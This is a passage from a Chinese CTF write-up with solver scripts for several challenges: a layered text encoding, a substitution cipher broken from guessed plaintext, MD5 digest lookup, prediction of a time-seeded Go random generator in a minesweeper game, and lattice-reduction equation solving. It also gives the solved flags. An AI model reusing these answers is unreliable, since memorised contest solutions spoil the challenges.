    c2 = data[pointer] if pointer < len(data) else 0
    pointer += 1
    c3 = data[pointer] if pointer < len(data) else 0
    pointer += 1
    print(hex(c1), hex(c2), hex(c3))
    if mappings.get(c1) and mappings[c1].get(c2) and mappings[c1][c2].get(c3):
        res += mappings[c1][c2][c3]
    else:
        # hard part here!

        # retract pointer (c3 not used)
        pointer -= 1

        # c1: we know that c1 can only be \xe?
        if c1 not in mappings:
            candidates = []
            for f1 in mappings:
                if mappings[f1].get(c1) and mappings[f1][c1].get(c2):
                    candidates.append(mappings[f1][c1][c2])
            assert len(candidates) == 1
            res += candidates[0]
        else:
            c1set = mappings[c1]
            # knowing that c1set[c2][c3] is not here...
            # 1. c1set[c2][?]
            # 2. c1set[?][c2]

            candidates = []
            if c1set.get(c2):
                for f3 in c1set[c2]:
                    candidates.append(c1set[c2][f3])
            for tmp in c1set:
                if c1set[tmp].get(c2):
                    candidates.append(c1set[tmp][c2])
            
            # assert len(candidates) > 0, res
            if len(candidates) == 0:
                print("!!!")
                # now we have too many candidates
                for tmp in c1set:
                    for tmp2 in c1set[tmp]:
                        candidates.append(c1set[tmp][tmp2])
                # c2 is not used
                pointer -= 1
            if len(candidates) == 1:
                res += candidates[0]
            else:
                # test each one
                candidates_new = []
                for c in candidates:
                    if check_prefix(res + c):
                        candidates_new.append(c)
                # assert len(candidates_new) == 1, (res, candidates_new)
                print(candidates_new)
                if len(candidates_new) == 1:
                    res += candidates_new[0]
                else:
                    if pointer >= len(data):
                        flag = False
                        for candidate in candidates_new:
                            if check_prefix(res + candidate):
                                flag = True
                                res += candidate
                                break
                        if not flag:
                            assert 0, (res, candidates_new)
                        else:
                            break
                    # the most troublesome part is that we need to get next char
                    possible_res = []
                    for candidate in candidates_new:
                        cc1 = data[pointer]
                        pointer += 1
                        cc2 = data[pointer] if pointer < len(data) else 0
                        pointer += 1
                        cc3 = data[pointer] if pointer < len(data) else 0
                        pointer += 1
                        print(hex(cc1), hex(cc2), hex(cc3))
                        if mappings.get(cc1) and mappings[cc1].get(cc2) and mappings[cc1][cc2].get(cc3):
                            res += candidate
                            res += mappings[cc1][cc2][cc3]
                            # print(res)
                            print(res)
                            if check_prefix(res):
                                possible_res.append((res[:], 3))
                            res = res[:-2]
                            pointer -= 3
                        else:
                            pointer -= 1
                            # repeating logic...
                            cc1set = mappings[cc1]
                            c_candidates = []
                            if cc1set.get(cc2):
                                for f3 in cc1set[cc2]:
                                    c_candidates.append(cc1set[cc2][f3])
                            for tmp in cc1set:
                                if cc1set[tmp].get(cc2):
                                    c_candidates.append(cc1set[tmp][cc2])
                            print(c_candidates)
                            # anyway anyone possible let's just try!
                            for c in c_candidates:
                                res += candidate
                                res += c
                                print(res)
                                if check_prefix(res):
                                    possible_res.append((res[:], 2))
                                res = res[:-2]
                            pointer -= 2
                    assert len(possible_res) != 0
                    if len(possible_res) == 1:
                        # happy ending finally
                        res = possible_res[0][0]
                        pointer += possible_res[0][1]
                    else:
                        # f**k let's try all of them AGAIN!
                        possible_res_2 = []
                        for possible in possible_res:
                            r = possible[0]
                            pointer += possible[1]
                            cc1 = data[pointer]
                            pointer += 1
                            cc2 = data[pointer] if pointer < len(data) else 0
                            pointer += 1
                            cc3 = data[pointer] if pointer < len(data) else 0
                            pointer += 1
                            print(hex(cc1), hex(cc2), hex(cc3))
                            if mappings.get(cc1) and mappings[cc1].get(cc2) and mappings[cc1][cc2].get(cc3):
                                print(r + mappings[cc1][cc2][cc3])
                                if check_prefix(r + mappings[cc1][cc2][cc3]):
                                    # print("pass")
                                    possible_res_2.append((r, possible[1]))
                            else:
                                # assert 0
                                # ignore cc3
                                cc1set = mappings[cc1]
                                c_candidates = []
                                if cc1set.get(cc2):
                                    for f3 in cc1set[cc2]:
                                        c_candidates.append(cc1set[cc2][f3])
                                for tmp in cc1set:
                                    if cc1set[tmp].get(cc2):
                                        c_candidates.append(cc1set[tmp][cc2])
                                print(c_candidates)
                                c_candidates_checked = []
                                for c in c_candidates:
                                    if check_prefix(r + c):
                                        c_candidates_checked.append(c)
                                print(c_candidates_checked)
                                if len(c_candidates_checked) == 0:
                                    # not possible
                                    pass
                                elif len(c_candidates_checked) == 1:
                                    possible_res_2.append((r, possible[1]))
                                else:
                                    # ok anyway it is still possible
                                    possible_res_2.append((r, possible[1]))
                                    # assert 0, c_candidates_checked
                            pointer -= 3
                            pointer -= possible[1]
                        # assert len(possible_res_2) == 1, possible_res_2
                        assert len(possible_res_2) > 0
                        if len(possible_res_2) == 1:
                            res = possible_res_2[0][0]
                            pointer += possible_res_2[0][1]
                        else:
                            # f**k
                            possible_res_3 = []
                            for possible in possible_res_2:
                                r = possible[0]
                                pointer += possible[1]
                                cc1 = data[pointer]
                                pointer += 1
                                cc2 = data[pointer] if pointer < len(data) else 0
                                pointer += 1
                                cc3 = data[pointer] if pointer < len(data) else 0
                                pointer += 1
                                print(hex(cc1), hex(cc2), hex(cc3))
                                if mappings.get(cc1) and mappings[cc1].get(cc2) and mappings[cc1][cc2].get(cc3):
                                    print(r + mappings[cc1][cc2][cc3])
                                    if check_prefix(r + mappings[cc1][cc2][cc3]):
                                        # print("pass")
                                        possible_res_3.append((r, possible[1]))
                                else:
                                    # ignore cc3
                                    cc1set = mappings[cc1]
                                    c_candidates = []
                                    if cc1set.get(cc2):
                                        for f3 in cc1set[cc2]:
                                            c_candidates.append(cc1set[cc2][f3])
                                    for tmp in cc1set:
                                        if cc1set[tmp].get(cc2):
                                            c_candidates.append(cc1set[tmp][cc2])
                                    c_candidates_checked = []
                                    for c in c_candidates:
                                        if check_prefix(r + c):
                                            c_candidates_checked.append(c)
                                    print(c_candidates, c_candidates_checked)
                                    if len(c_candidates_checked) == 1:
                                        possible_res_3.append((r, possible[1]))
                                    else:
                                        if len(c_candidates_checked) == 0:
                                            pass
                                        else:
                                            assert 0, c_candidates_checked
                                pointer -= 3
                                pointer -= possible[1]
                            # assert len(possible_res_3) == 1, possible_res_3
                            assert len(possible_res_3) > 0
                            if len(possible_res_3) == 1:
                                res = possible_res_3[0][0]
                                pointer += possible_res_3[0][1]
                            else:
                                print("WARNING")
                                print(f"DUPLICATION ({len(possible_res_3)})")
                                print(possible_res_3)
                                res = possible_res_3[0][0]
                                pointer += possible_res_3[0][1]

                                print(len(res))
                                print([i[0][-10:] for i in possible_res_3])

                                zhelaosu[len(res) - 2] = [i[0][-2] for i in possible_res_3]
                                # rl = []
                                # for i in range(1, len(possible_res_3)):
                                #     rl.append(possible_res_3[i][0])
                                # replace_list.append((res[:], rl))

# print(len(replace_list))
print("=" * 100)
print(res)
print(zhelaosu)
```

这一坨代码奇丑无比，并且我用了很长很长时间来调试，依靠 assert 来勉强确保结果正确。大概从注释就能看出我写的时候是个什么心理状态了。

最后输出一大坨「佛经」，以及可以替换的序列：

```python
{299: ['者', '蘇'], 381: ['者', '蘇'], 754: ['者', '蘇'], 819: ['者', '蘇'], 998: ['者', '老'], 1670: ['者', '老', '蘇'], 2418: ['者', '蘇'], 2518: ['者', '蘇'], 2817: ['者', '蘇'], 4770: ['者', '蘇'], 5152: ['者', '蘇'], 5527: ['者', '蘇'], 6055: ['者', '蘇'], 6687: ['者', '蘇'], 7547: ['者', '老'], 7991: ['者', '蘇'], 8320: ['者', '蘇'], 9934: ['者', '蘇'], 10113: ['者', '蘇'], 11583: ['者', '蘇'], 12075: ['者', '蘇'], 12479: ['者', '蘇'], 12620: ['者', '蘇'], 12926: ['者', '老'], 13454: ['者', '蘇'], 15128: ['者', '蘇'], 15735: ['者', '蘇'], 16028: ['者', '老'], 16041: ['者', '蘇'], 17321: ['者', '蘇'], 18187: ['者', '老'], 18320: ['者', '蘇'], 18403: ['者', '蘇'], 18764: ['者', '蘇'], 18882: ['者', '蘇'], 19224: ['者', '蘇'], 19242: ['者', '蘇'], 19260: ['者', '蘇'], 19920: ['者', '蘇'], 19970: ['者', '蘇'], 20176: ['者', '蘇'], 20179: ['者', '蘇'], 20207: ['者', '蘇'], 20236: ['者', '老', '蘇'], 20269: ['者', '蘇'], 22196: ['者', '蘇'], 22503: ['者', '蘇'], 22641: ['者', '蘇'], 23483: ['者', '蘇'], 24224: ['者', '蘇'], 24451: ['者', '蘇'], 24520: ['者', '蘇'], 25330: ['者', '蘇'], 25917: ['者', '蘇'], 26555: ['者', '蘇'], 27433: ['者', '蘇']}
```

直接把「佛经」丢进去，会发现 UTF-16 解码错误。在 `Decrypt()` 里面加上 `print(result.decode('utf-16le', errors='ignore')[起始范围:结束范围]` 有助于观察输出的结果。

可以注意到，替换表里开头几个字符如果替换了，乱码会变成正确的结果，所以一个一个试一下就行，需要花一些时间。结果如下：

```python
keys = sorted(list(mappings.keys()))
# print(keys)

def replace(text, idx, midx):
   kidx = keys[idx]
   return text[:kidx] + mappings[kidx][midx] + text[kidx + 1:]

fo2 = replace(fo2, 0, 1)
fo2 = replace(fo2, 1, 1)
fo2 = replace(fo2, 4, 1)
fo2 = replace(fo2, 5, 1)
fo2 = replace(fo2, 6, 1)
fo2 = replace(fo2, 7, 1)
fo2 = replace(fo2, 11, 1)
fo2 = replace(fo2, 12, 1)
fo2 = replace(fo2, 13, 1)
fo2 = replace(fo2, 14, 1)
fo2 = replace(fo2, 16, 1)
fo2 = replace(fo2, 18, 1)
fo2 = replace(fo2, 21, 1)
fo2 = replace(fo2, 23, 1)
fo2 = replace(fo2, 24, 1)
fo2 = replace(fo2, 25, 1)
fo2 = replace(fo2, 29, 1)
fo2 = replace(fo2, 30, 1)
fo2 = replace(fo2, 33, 1)
fo2 = replace(fo2, 34, 1)
fo2 = replace(fo2, 37, 1)
fo2 = replace(fo2, 39, 1)
fo2 = replace(fo2, 41, 1)
fo2 = replace(fo2, 42, 1)
fo2 = replace(fo2, 44, 1)
fo2 = replace(fo2, 47, 1)
fo2 = replace(fo2, 49, 1)
fo2 = replace(fo2, 51, 1)
fo2 = replace(fo2, 52, 1)
fo2 = replace(fo2, 55, 1)
print(Decrypt(fo2))
```

之后还要处理十层的 encoding，这个简直是小菜一碟：

- b85 和 a85 字符集不同，试一试就知道
- b64 大家见得多了，特征挺明显的
- b32 只有大写字母
- b16 就是十六进制编码

结果如下：

```python
>>> b64decode(a85decode(b64decode(a85decode(b64decode(a85decode(b16decode(b85decode(a85decode(b32decode(x)))))))))).decode()
'将需要打码的文字输入在上面的文本框里，点击『听佛说宇宙的真谛』按钮，就能在下面得到打码后的文字。\r\nflag{AES_1s_b10ck_cipher}\r\n将需要解码的文字输入在下面的文本框里，记得带上『佛曰：』或『如是我闻：』的文字，点击『参悟佛所言的真意』按钮，就能在上面的文本框里得到解码后的文字。'
```

虽然我的做法和 AES 没啥直接关系。

## 奇怪的加密

### Flag 1：密码学小作文

用了我整整一个下午的时间。

大概的思路是：这个算法只会加密字母，不会加密其他的字符，所以可以从文中的数字（年份）推断这大概是一篇关于密码学的小作文，从而可以推断出一部分的明文。在已知足够多明文的情况下，是可以推出来的。

并且这种替换算法还有一个数学上的性质：用户给的 key 将二十六个字母分割为了多个**循环群**。一个字母无论怎么变，只会变成它的循环群内的字母。

我的实际操作是，比如说开头 `Cinqwmzewtxs kn f`，八九不离十是 `Cryptography is a`（第一个字母无论如何不会被转换），所以我们可以画出：

```
R->I
Y->?->N
P->?->?->Q
T->?->?->?->W
O->?->?->?->?->M
G->?->?->?->?->?->Z
R->?->?->?->?->?->?->E
A->?->?->?->?->?->?->?->W
P->?->?->?->?->?->?->?->?->T
H->?->?->?->?->?->?->?->?->?->X
Y->?->?->?->?->?->?->?->?->?->?->S
I->?->?->?->?->?->?->?->?->?->?->?->K
S->?->?->?->?->?->?->?->?->?->?->?->?->N
A->?->?->?->?->?->?->?->?->?->?->?->?->?->F
```

可以化简为

```
O->?->?->?->?->M
G->?->?->?->?->?->Z
P->?->?->Q->?->A->?->?->?->T->?->?->?->W->?->?->?->?->?->F
H->?->?->?->?->?->?->?->?->?->X
R->I->?->?->?->?->?->E->?->?->?->?->?->K
Y->?->N->?->?->?->?->?->?->?->?->S->?->?->?->?->?->?->?->?->?->?->Y
```

至少可以知道字母表中有一个长度为 22 的循环群。然后后面再找（猜）点明文数据往里面加。因为不停出错，我用了好几个小时。因为我不想再在写 wp 的时候重演当时的痛苦，所以我只把我最后的草稿贴出来：

```
D->D

"Crypto"
# R->I
Y->?->N
# P->?->?->Q
T->?->?->?->W
O->?->?->?->?->M

+"graphy"?
# G->?->?->?->?->?->Z
G->R->I->?->?->?->Z->?->E->?->?->?->P->C->?->Q->H->A->Y->B->?->T->?->?->?->W->X
? G->R->I->W->X->?->Z->?->E->?->?->?->P->C->?->Q->H->A->Y->B->N->T->G
? G->R->I->W->X->O->Z->S->E->F->M->?->P->C->?->Q->H->A->Y->B->N->T->G
? G->R->I->W->X->O->Z->S->E->F->M->L->P->C->?->Q->H->A->Y->B->N->T->G
# A->?->?->?->T->?->?->?->W
# P->C->?->Q->H->A->?->B->?->T->?->?->?->W->X
# H->A->?->B->?->?->?->?->?->?->X
Y->?->N->?->?->?->?->?->?->?->?->S

"a"
A->?->?->?->?->?->?->?->?->?->?->?->?->?->F

"Friedrich Kasiski"
R->I->?->?->?->Z->?->?->?->?->?->P->C->?->Q

"cipher"
# P->C
H->?->Y
? E->?->?->L
? O->?->?->?->R

"ChaCha20"
H->A->?->B
```

最后的 key 为 `YNKDFMRAWUQPLTZCHIEGJVXOBS`。

```console
> python dec.py crypt1.txt YNKDFMRAWUQPLTZCHIEGJVXOBS | grep flag
The Rail Fence or Zigzag Cipher is a transposition cipher. We must first choose a numeric key, which we use to encipher our plaintext message. Once we have a key, say 3, we write each letter of the plaintext diagonally downwards as many rows as the key, and then continue upwards until the top row and then go down again - like a zigzag! The ciphertext is then assembled by collecting all letters on each line together and then placing each line after each other. The flag is foxtrot lima alpha golf left bracket foxtrot romeo echo nine uniform echo november charlie yankee underscore four november alpha lima yankee five india sierra underscore one sierra underscore uniform sierra echo foxtrot uniform lima right bracket.
```

dec.py 照着题目源代码改就行。flag 就是最后一句话，自己手动看一下就行。

这篇文章我没有在互联网上找到原文。

### Flag 2：MD5 小作文

发现有很多数字，每行长度一样，想了一下，似乎和熟知的编码都不匹配，但是看起来有点像 MD5，试了一下：

```console
> echo -n 'T' | md5sum
b9ece18c950afbfa6b0fdbfa4ff731d3
```

这坨东西和第一行的数字是匹配的，因此就是 MD5 了，写了个脚本：

```python
import string
import hashlib

printable = string.printable

mappings = {}

for i in printable:
    digest = hashlib.md5(i.encode()).hexdigest()
    mappings[i] = digest

for i in printable:
    for j in printable:
        digest = hashlib.md5((i + j).encode()).hexdigest()
        mappings[(i+j)] = digest

def get_numeric_chars(s: str):
    return ''.join(filter(str.isdigit, s))

with open("crypt2.txt") as f:
    for l in f:
        l = l.strip()
        for i in mappings:
            if get_numeric_chars(mappings[i]) == get_numeric_chars(l):
                print(i, end="")
                break
        else:
            print("?", end='')
```

结果为：

```
The MD5 message-digest algorithm is a cryptographically broken?t ??widely used hash function p?ucing ?28-b??h value.?ag{md5_1s_re41ly_1n5ecur3} Althoug?D5 was?????gned to be u???crypto?phic h??nction,???een found? suffer from extensive vulnerabil?s.
```

有些单词没弄出来，不过这已经不重要了。

## 扫雷 II（Flag 1 部分）

Flag 1 很简单，先输一次，然后倒推随机数种子，和今年 HackerGame 的蒙特卡洛一样。

```golang
package main

import (
        "fmt"
        "math/rand"
        "time"
)

func main() {
        now := time.Now().UnixMilli()
        fmt.Println(now)

        var line1 int
        var line2 int
        var line3 int

        fmt.Scanf("%b", &line1)
        fmt.Scanf("%b", &line2)
        fmt.Scanf("%b", &line3)

        for {
                now -= 1
                rand.Seed(now)
                got1 := 0
                got2 := 0
                got3 := 0
                for j := 0; j < 16; j++ {
                        got1 ^= ((rand.Intn(257)) % 2) << j
                }
                for j := 0; j < 16; j++ {
                        got2 ^= ((rand.Intn(257)) % 2) << j
                }
                for j := 0; j < 16; j++ {
                        got3 ^= ((rand.Intn(257)) % 2) << j
                }
                if got1 == line1 && got2 == line2 && got3 == line3 {
                        fmt.Println(now)
                        got4 := 0
                        for j := 0; j < 16; j++ {
                                got4 ^= ((rand.Intn(257)) % 2) << j
                        }
                        fmt.Printf("%016b\n\n\n", got4)
                        // run remaining random numbers
                        for i := 4; i < 16; i++ {
                                for j := 0; j < 16; j++ {
                                        rand.Intn(257)
                                }
                        }
                        break
                }
        }
        // build next map
        type Board = [16]int
        var board Board
        for i := 0; i < 16; i++ {
                for j := 0; j < 16; j++ {
                        board[i] ^= ((rand.Intn(257)) % 2) << j
                }
        }
        for i := 0; i < 16; i++ {
                fmt.Printf("%016b ", board[i])
        }
        fmt.Println()
}
```

## 方程组

主要思路：用 Python 生成 Mathematica 代码，然后让 Mathematica 帮我算。

### Flag 1

简单的解方程组。

```python
from sympy import Symbol, nsolve
import decimal
decimal.getcontext().prec = 5

with open("result.txt") as f:
    res = eval(next(iter(f)))

l = len(res)

primes = [2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271][:l]
sprimes = [float(decimal.Decimal(i).sqrt()) for i in primes]
variables = [Symbol(f"x{i}") for i in range(l)]

# variables[0] = ord('f')
# variables[1] = ord('l')
# variables[2] = ord('a')
# variables[3] = ord('g')
# variables[4] = ord('{')
# variables[-1] = ord('}')

for i in range(l):
    eq = sum([sprimes[i]*variables[i] for i in range(l)])
    sprimes=[sprimes[-1]]+sprimes[:-1]
    print(f"{eq}=={res[i]},")
```

因为精度太低，如果放 `flag{}` 的整数值，方程就解不出来了。效果如图：



每个变量 round 再 chr 一下就行。

### Flag 2

多出了一些自由变量，但是我们知道 flag 明文的开头五个字符和结尾一个字符，减小了计算量。

脚本也是类似的：

```python
# from sympy import Symbol, nsolve
import decimal
decimal.getcontext().prec = 15

with open("result.txt") as f:
    it = iter(f)
    next(it)

    res = eval(next(it))
    print(res)

l = len(res)+10

primes = [2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271][:l]
sprimes = [str(decimal.Decimal(i).sqrt()) for i in primes]
variables = [(f"x{i}") for i in range(l)]

variables[0] = str(ord('f'))
variables[1] = str(ord('l'))
variables[2] = str(ord('a'))
variables[3] = str(ord('g'))
variables[4] = str(ord('{'))
variables[-1] = str(ord('}'))

for i in range(l-10):
    eq = "+".join([sprimes[j]+"*"+variables[j] for j in range(l)])
    sprimes=[sprimes[-1]]+sprimes[:-1]
    print(f"{eq}=={res[i]},")
```

计算结果类似于：



可以看到只有四个自由变量，因此穷举吧！

```python
from decimal import Decimal, getcontext
getcontext().prec = 15

l = [
    lambda a,b,c,d: Decimal("123.155429211903") + Decimal("0.101389666524775") *a + 
  Decimal("0.097363807490860") *b - Decimal("0.020169276822607") *c - 
  Decimal("0.20153492775911") *d, lambda a,b,c,d: 
 Decimal("66.753732410249") - Decimal("0.080676972507318") *a - Decimal("0.068793134263978") *b - 
  Decimal("0.038041112610789") *c + Decimal("0.019977914404265") *d, lambda a,b,c,d: 
 Decimal("120.510127947916") - Decimal("0.070262973222038") *a - Decimal("0.111782583438457") *b + 
  Decimal("0.0045955960745912") *c + Decimal("0.148780314600433") *d, lambda a,b,c,d: 
 Decimal("90.618489437347") + Decimal("0.062727688419161") *a + Decimal("0.047384309915314") *b - 
  Decimal("0.030472924939055") *c - Decimal("0.045645647604480") *d, lambda a,b,c,d: 
 Decimal("98.715122899750") - Decimal("0.0055945410670141") *a + Decimal("0.033140466563841") *b + 
  Decimal("0.0089388391453946") *c - Decimal("0.050751991978813") *d, lambda a,b,c,d: 
 Decimal("112.150702040079") + Decimal("0.037506392455473") *a + Decimal("0.027907059645255") *b + 
  Decimal("0.021569898858446") *c - Decimal("0.068875515932615") *d, lambda a,b,c,d: 
 Decimal("109.695467443018") - Decimal("0.023274207539976") *a - Decimal("0.028742888651852") *b - 
  Decimal("0.039178707119570") *c + Decimal("0.0109083161238284") *d, lambda a,b,c,d: 
 Decimal("99.515475382890") + Decimal("0.054055016733775") *a + Decimal("0.044247505511186") *b - 
  Decimal("0.0139898105272784") *c - Decimal("0.126379776998097") *d, lambda a,b,c,d: 
 Decimal("111.968668632099") - Decimal("0.061819147622102") *a - Decimal("0.064617656763999") *b - 
  Decimal("0.040343307207692") *c + Decimal("0.031984542984781") *d, lambda a,b,c,d: 
 Decimal("96.249194018699") - Decimal("0.069833572922601") *a - Decimal("0.092647652376285") *b + 
  Decimal("0.0084647132090683") *c + Decimal("0.145449218039294") *d, lambda a,b,c,d: 
 Decimal("93.360991016406") + Decimal("0.129661397102727") *a + Decimal("0.122040892629894") *b - 
  Decimal("0.0083962976675733") *c - Decimal("0.161918669045069") *d, lambda a,b,c,d: 
 Decimal("116.918194457912") - Decimal("0.059491734827844") *a - Decimal("0.0056849991693217") *b + 
  Decimal("0.0060969842183334") *c + Decimal("0.0084327591727470") *d, lambda a,b,c,d: 
 Decimal("236.75106394462") - Decimal("0.36353942139517") *a - Decimal("0.70488460809345") *b - 
  Decimal("0.41739635147575") *c + Decimal("0.34451518373150") *d, lambda a,b,c,d: 
 Decimal("51.122405489689") - Decimal("1.45401653256777") *a - Decimal("1.34247453102010") *b + 
  Decimal("0.26615676065500") *c + 
  Decimal("3.0139669648705") *d, lambda a,b,c,d: -Decimal("141.464319575183") + 
  Decimal("2.2859965487078") *a + Decimal("2.0443726865403") *b + Decimal("0.33167840124709") *c - 
  Decimal("2.5879619386184") *d, lambda a,b,c,d: 
 Decimal("162.157812984038") + Decimal("0.76136522113221") *a + Decimal("1.73118866561166") *b - 
  Decimal("0.20785459756266") *c - Decimal("2.8491946982861") *d, lambda a,b,c,d: 
 Decimal("340.94773342508") + Decimal("0.94184265769886") *a + Decimal("0.63118265229941") *b - 
  Decimal("0.146383148288089") *c - Decimal("3.4215872464627") *d, lambda a,b,c,d: 
 Decimal("437.08559091751") - Decimal("3.1661652079608") *a - Decimal("3.4046798398965") *b - 
  Decimal("0.87263909131944") *c + Decimal("4.4534924369046") *d
]

import string

alphabet = string.ascii_lowercase + "0123456789" + "_"

for a in alphabet:
    a = ord(a)
    for b in alphabet:
        b = ord(b)
        for c in alphabet:
            c = ord(c)
            for d in alphabet:
                d = ord(d)
                res = ""
                try:
                    for i in l:
                        res += (chr(int(round(i(a,b,c,d)))))
                        # if not res[-1].isprintable():
                        if not res[-1] in alphabet:
                            raise ValueError
                    res += f"{chr(a)}{chr(b)}{chr(c)}{chr(d)}"
                    print(a, b, c, d, res)
                except ValueError:
                    continue
```

在结果里面翻一下符合英文语法的句子就行。注意别把最后四个字符漏了——一开始我就漏了，结果只看到了 `y0u_are_a_good_gue` 这样的单词，我甚至去试了 `y0u_are_a_good_guy` 这样的 flag。

### Flag 3（第二阶段）

看了提示，[`LatticeReduce`](https://reference.wolfram.com/language/ref/LatticeReduce.html)，又看了 Applications，诶可以解整数方程组诶。

我们的问题可以转化为求解 `a0x0+a1x1+...+anxn = 0` 的整数解，其中 a1 到 an 为素数的平方根乘以 `10**195`，而 a0 为 `25800359843622375482317741765092423108740749704076506674391637220601256480076793833725266596491145653469234638681214279142266384627498702292519864562549230222347690184575651985867669548991937988156542`。`LatticeReduce` 的输入就是方程组矩阵。把 `a0` 设置成 1 然后希望 `LatticeReduce` 求出那个特别大的常数好像是不可行的，可能是因为一些数学上的原因。

如果有 19 个字符，那么执行的求解命令就是：

```mathematica
LatticeReduce[{
{1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-a0},{0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-a1},{0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-a2},{0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-a3},{0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-a4},{0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,-a5},{0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,-a6},{0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,-a7},{0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,-a8},{0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,-a9},{0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,-a10},{0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,-a11},{0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,-a12},{0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,-a13},{0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,-a14},{0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,-a15},{0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,-a16},{0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,-a17},{0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,-a18},{0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-a19}}]
```

以此类推，然后生成 Mathematica 代码：

```python
primes = [25800359843622375482317741765092423108740749704076506674391637220601256480076793833725266596491145653469234638681214279142266384627498702292519864562549230222347690184575651985867669548991937988156542] + [2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271]

EXPAND = "10^195"

print(f"a0 = {primes[0]};")
for i in range(1, len(primes)):
    print(f"a{i} = Round[{EXPAND} Sqrt[{primes[i]}]];")

for length in range(20, 58+1):

    print("LatticeReduce[{")

    for i in range(length):
        print("{", end='')
